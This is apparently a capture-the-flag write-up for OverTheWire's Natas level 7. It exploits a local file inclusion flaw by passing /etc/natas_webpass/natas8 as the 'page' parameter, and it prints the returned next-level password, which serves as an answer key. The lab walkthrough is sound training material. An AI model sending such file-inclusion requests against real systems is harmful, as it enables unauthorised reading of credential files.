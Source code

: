 

```html
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
```
When ever I change Pages the link Changes

```plain
//From
http://natas7.natas.labs.overthewire.org/
//To
http://natas7.natas.labs.overthewire.org/index.php?page=home
```
It indicates LFI exploit

so lets change page=home to page=/etc/natas_webpass/natas8

Full URL : http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

Below the output

```html
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
```
